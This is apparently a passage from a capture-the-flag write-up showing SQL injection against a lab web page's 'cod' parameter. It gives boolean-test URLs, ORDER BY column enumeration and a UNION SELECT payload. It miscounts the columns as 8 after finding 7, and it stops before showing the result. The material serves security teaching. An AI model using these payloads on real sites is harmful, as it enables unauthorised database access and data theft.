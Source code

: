 There may be an SQL injection here. To test, try and trick the webpage to display a valid result for an invalid room number. Assuming the SQL syntax in the backend looks something like this:

```sql
SELECT title,price,description FROM rooms WHERE ID=6
```

Then trying the following queries with the `cod` parameter of the URL should trigger the vulnerability:

- `http://10.10.10.143/room.php?cod=6%20and%201=2`
- `http://10.10.10.143/room.php?cod=6%20and%201=1`

They should result in the following SQL queries in the backend:

```sql
SELECT title,price,description FROM rooms WHERE ID=6 and 1=2 -- should return nothing
SELECT title,price,description FROM rooms WHERE ID=6 and 1=1 -- should return something
```

And that works! That is valid SQL injection. Next, get the number of columns in the query using `ORDER BY`. Starting at 1 and incrementing, shows that the number of columns is 7:

- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%201` returns something
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%202` returns something
- `...`
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%208` returns nothing

The underlying SQL query now looks more like the following with this injection:

- https://www.w3schools.com/sql/sql_orderby.asp

```sql
-- X is the column number to order results the by
SELECT c1,c2,c3,c4,c5,c6,c7 FROM rooms WHERE ID=6 ORDER BY X 
```

Knowing there are 8 columns, now make a `UNION` query to return user requested results:

- https://www.w3schools.com/sql/sql_ref_union.asp

```sql
0 UNION ALL SELECT 1,2,3,4,5,6,7 -- use for GET parameter cod in URL
```

This returns the following:
